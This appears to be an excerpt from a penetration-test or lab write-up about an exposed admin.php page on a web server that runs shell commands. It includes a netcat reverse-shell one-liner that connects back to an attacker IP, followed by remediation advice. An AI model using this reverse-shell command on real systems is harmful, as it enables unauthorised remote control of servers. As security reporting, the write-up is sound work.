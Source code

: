 **Discovery and Exploitation:**

Scanning the webserver with gobuster revealed the existance of the admin.php file. Navigating to it displays the following screen:

![](009.jpg)

The last line titled Execute Shell Command allows remote users to execute commands directly on the webserver. This can be used to not only gather sensitive information but it can be used to directly connect to the webserver via a command line shell with the following command and a netcat listener setup on the attackers home system:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.50.142.47 4444 >/tmp/f`

![](015.jpg)

**Remeidation:**

The admin.php should be removed if it is not necessary. If it is required this page should be password protected and only accessible to authorized system administrators.

<br>
